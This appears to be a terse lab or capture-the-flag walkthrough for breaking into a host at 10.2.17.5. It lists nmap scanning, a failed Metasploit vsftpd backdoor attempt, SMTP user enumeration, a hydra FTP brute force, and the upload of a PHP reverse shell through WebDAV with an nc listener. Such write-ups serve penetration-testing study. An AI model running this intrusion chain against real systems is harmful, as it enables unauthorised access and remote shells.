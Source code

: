 

- cat /etc/hosts
- nmap -sV -sC -p 21 10.2.17.5
- ftp 10.2.17.5 21
- searchsploit vsftpd
- use exploit/unix/ftp/vsftpd_234_backdoor
- set RHOSTS 10.2.17.5
- run = dosent work
- get username auxiliary/scanner/smtp/smtp_enum


When we attempted to use the exploit (vsftpd_234_backdoor )for this version, we discovered that the administrator had applied a patch to the service. Despite the version remaining unchanged, the exploit did not function as expected.

which will come to our second solution is bruteforcing the ftp service

we can use smpt if it was open to identify usernames that we can build upon to bruteforce the ftp service and narrow down our options 

- msfconsole
- search smtp_enum
- set rhosts and run

- hydra -L service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.2.17.5 ftp
- open webapplication
- we found webDAV which looks intersting
- we can upload php reverse shell 
- we can check directory of /usr/share/webshells/php/  within this directory we have couple of reverse shells options
- cp /usr/share/webshells/php/php-reverse-shell.php .
- edit reverse shell with our LHOST AND LPORT
- we setup our listner in another tab
	- nc -lvnp 1234
- login ftp
- cd /var/www
- cd /dav (the only folder we have permission to upload file to)
- on our webapp the php should be there 
- click and listener will be activated
	- /bin/bash -i
	- we have better permissions


